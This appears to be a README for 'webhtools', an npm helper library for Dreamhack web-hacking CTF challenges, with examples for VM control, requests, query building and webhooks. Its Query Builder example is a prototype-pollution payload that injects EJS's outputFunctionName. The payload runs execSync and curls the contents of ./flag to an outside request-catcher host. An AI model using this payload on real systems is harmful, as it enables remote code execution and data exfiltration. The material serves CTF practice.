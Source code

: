 ## Webhtools
This is set of useful tool for webhacking. Includes request helper, dreamhack helper etc.

### Installation
```shell
npm install webhtools
```

### Usage
#### Dreamhack Problem Tools
```typescript
import {ProblemHelper} from "webhtools";

async function run() {
  // const ph = await new ProblemHelper(<problemId>).init();
  const ph = await new ProblemHelper(927).init();

  await ph.openVM();
  // exploit
  console.log(ph.getURL());
  await ph.closeVM();
}

run();
```
At first time, you need to enter your dreamhack account info.

#### Request Helper

```typescript
import {RequestHelper, ProblemHelper} from "webhtools";

const ph = await new ProblemHelper(927).init();
await ph.openVM();

const rh = new RequestHelper(ph.getURL());
rh.setContentType("application/json");
rh.setBearerAuth(tokenRes.json.token);
const res = await rh.get("/");
console.log(res.ok);
console.log(res.status);
console.log(res.bytes);
console.log(res.text);
console.log(res.json);
console.log(res.formData);

// in fact, you don't need to close vm. it will close automatically
// await ph.closeVM();
```

#### Query Builder
```js
import { RequestHelper, QueryBuilder } from "webhtools";

const client = new RequestHelper("http://localhost:3000");

const data = {
  key: "__proto__",
  value: {
    "settings": {
      "view options": {
        "outputFunctionName": "x;process.mainModule.require('child_process').execSync(\"curl --data $(cat ./flag) 'https://cghilzr.request.dreamhack.games'\");s"
      }
    }
  }
}
await client.get('/?'+new QueryBuilder(data));
console.log(new QueryBuilder(data))₩
```

### webhook
```typescript
const webhook = new Webhook(8000);
const url = await webhook.publish();

return await new Promise((resolve) => {
  webhook.set("/test", (req) => {
    webhook.disconnect();
    resolve(req.body.toString());
  })

  fetch(`${url}/test`, { method: "POST", body: "hello" });
})
```